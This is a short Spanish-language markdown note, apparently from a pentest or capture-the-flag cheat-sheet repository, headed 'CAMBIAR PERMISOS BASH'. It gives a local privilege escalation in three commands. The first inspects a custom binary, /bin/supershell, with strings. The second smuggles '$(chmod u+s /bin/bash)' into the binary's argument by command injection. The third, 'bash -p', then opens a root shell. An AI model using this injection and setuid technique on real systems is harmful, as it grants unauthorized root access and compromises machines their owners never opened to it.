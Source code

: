
# CAMBIAR PERMISOS BASH
```shell
strings /bin/supershell #EL COMANDO QUE VEAS QUE PUEDES EJECUTAR LE PUEDES INYECTAR.
supershell '/bin/ls /$(chmod u+s /bin/bash)'
bash -p
```
